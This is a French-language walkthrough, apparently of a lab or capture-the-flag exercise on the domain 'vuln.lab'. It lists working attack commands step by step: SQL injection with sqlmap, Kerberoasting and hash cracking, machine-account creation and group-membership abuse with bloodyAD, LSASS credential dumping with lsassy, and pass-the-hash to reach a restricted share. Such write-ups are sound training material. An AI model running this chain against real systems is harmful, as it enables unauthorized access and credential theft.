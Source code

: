 Tout d'abord pour demader le vpn

sudo openvpn --config akil.ovpn

sudo route -n add -net 192.168.40.0/24 -interface utun3


Ensuite voici a quoi ressemble mon /etc/hosts

![Capture d’écran 2024-11-14 à 16 00 35](https://github.com/user-attachments/assets/09392315-4757-494f-98ab-cc74ef0e38c4)

À partir de là, on utilise sqlmap pour tester une injection SQL sur le site web interne. La commande suivante permet d'obtenir le schéma de la base de données :

sqlmap -u "http://internal.vuln.lab/index.php?page=profil.php&id=5" --cookie="PHPSESSID=231iferbmflpia398nc649doua" --schema --batch

![Capture d’écran 2024-11-14 à 16 03 56](https://github.com/user-attachments/assets/35b4f2ff-e3df-47bf-9a11-eeb170d514d1)

Ensuite, on extrait le contenu de la table users, ce qui nous permet de récupérer le mot de passe d'Alice :

sqlmap -u "http://internal.vuln.lab/index.php?page=profil.php&id=5" --cookie="PHPSESSID=231iferbmflpia398nc649doua" --dump -T users --batch

![Capture d’écran 2024-11-14 à 16 04 11](https://github.com/user-attachments/assets/69f89746-4eb2-400b-9b2c-95bbfe82187d)


Ainsi, le mot de passe d'Alice (p@ssword) est obtenu.

En poursuivant, nous réalisons un Kerberoasting pour récupérer les tickets Kerberos des comptes de service :

nxc ldap 192.168.40.127 -u 'Alice.mice' -p 'p@ssword' -d 'vuln.lab' --kerberoasting kerberoasting.txt

![Capture d’écran 2024-11-14 à 16 05 41](https://github.com/user-attachments/assets/18a9f071-ea3f-4912-8ce9-0898fb7fd9ff)

Le hash obtenu correspond à svc_srv. Nous allons donc essayer de cracker ce hash pour obtenir le mot de passe en clair.


Avec hashcat, on utilise le mode 13100 pour casser le hash :

hashcat -m 13100 -a 0 kerberoasting.txt passwords.txt 

![Capture d’écran 2024-11-14 à 16 06 30](https://github.com/user-attachments/assets/78dff516-e728-4e94-b740-ad684e7d4bea)


Il est également possible d’utiliser John The Ripper pour obtenir le mot de passe:

john --format=krb5tgs --wordlist=passwords.txt kerberoasting.txt

![Capture d’écran 2024-11-14 à 16 07 07](https://github.com/user-attachments/assets/5c67de6d-ce53-4c7e-8c75-ed773514a771)

Le mot de passe de svc_srv est donc trouvé : qwerty123.


Ensuite, on vérifie les permissions disponibles pour Alice sur le partage SMB :

nxc smb DC01.VULN.LAB -u 'Alice.mice' -p 'p@ssword' -d 'vuln.lab' --dns-server 192.168.40.127 --shares

![Capture d’écran 2024-11-14 à 16 07 49](https://github.com/user-attachments/assets/f41a0246-073b-4d76-9d7f-fdb8e5f12b27)

Bien qu'elle ait accès à certains partages, l'accès au dossier CurriculumVitae, qui nous intéresse, lui est refusé.


Pour contourner cette restriction, on utilise Alice pour créer un compte machine appelé akil :

bloodyAD -u Alice.mice -p 'p@ssword' -d vuln.lab --host vuln.lab --dc-ip 192.168.40.127 add computer akil 'Password!'

![Capture d’écran 2024-11-14 à 16 22 31](https://github.com/user-attachments/assets/0449e44f-cec3-4329-9dae-79f16989f45a)


Pour analyser et visualiser les permissions dans Active Directory, on utilise BloodHound avec Alice :

bloodhound-python -c All -u 'Alice.mice' -p 'p@ssword' -d vuln.lab -ns 192.168.40.127

curl -L https://ghst.ly/getbhce | sudo docker compose -f - up


Ensuite, on se connecte à l'interface BloodHound via "http://127.0.0.1:8080/ui/explore".

Les fichier .json générés seront mis dans l'onglet Administration de bloodHound.


Avec les privilèges de svc_srv, on ajoute le compte akil dans le groupe server_admins, ce qui lui octroie des droits administratifs sur les serveurs :

bloodyAD -u svc_srv -p 'qwerty123' -d vuln.lab --host 192.168.40.127 --dc-ip 192.168.40.127 add groupMember server_admins 'akil$'

![Capture d’écran 2024-11-14 à 16 18 53](https://github.com/user-attachments/assets/130f4146-5860-4b89-9b8d-fee75317247d)


Nous vérifions ensuite qu’akil a bien les permissions nécessaires pour accéder aux informations d'un compte administrateur :

![Capture d’écran 2024-11-14 à 16 25 48](https://github.com/user-attachments/assets/ddbc54c1-8d21-472d-b924-f6a1cbb659f9)


Ensuite grace a cette commande on a pu avoir acces au mot de passe hasher de srv_neccus en utilisant lsassy:

 nxc smb SRV01.VULN.LAB -u 'akil$' -p 'Password!' -M lsassy
 
 ![Capture d’écran 2024-11-14 à 16 29 17](https://github.com/user-attachments/assets/387278f6-bb8d-4cc5-af39-159c391a525f)

Grâce à ce hash, on peut ajouter akil au groupe human_resources car, d’après BloodHound, svc_nessus, via le groupe administrative_groups, a la possibilité d’ajouter des membres dans human_resources :

<img width="1433" alt="Capture d’écran 2024-11-14 à 16 32 51" src="https://github.com/user-attachments/assets/5a76fe09-2541-4a3d-8312-3191dc30c77a">

bloodyAD -u svc_nessus -p ':e3cddc751fabf3eed53f904d85b1a0ba' -d vuln.lab --host 192.168.40.127 --dc-ip 192.168.40.127 add groupMember "human_resources" 'akil$'

![Capture d’écran 2024-11-14 à 16 33 32](https://github.com/user-attachments/assets/f639e056-1639-497d-9524-839bd37389b3)


Finalement, on accède au partage CurriculumVitae en utilisant akil avec les droits nécessaires :

nxc smb DC01.VULN.LAB -u 'akil$' -p 'Password!' -d 'vuln.lab' --dns-server 192.168.40.127 --shares 

![Capture d’écran 2024-11-14 à 16 35 17](https://github.com/user-attachments/assets/3956ac70-d6a7-4178-8676-13dca51c6e89)

![Capture d’écran 2024-11-14 à 16 35 53](https://github.com/user-attachments/assets/ecca4a57-8a0c-43f9-beb8-e13a60674b57)


 

 









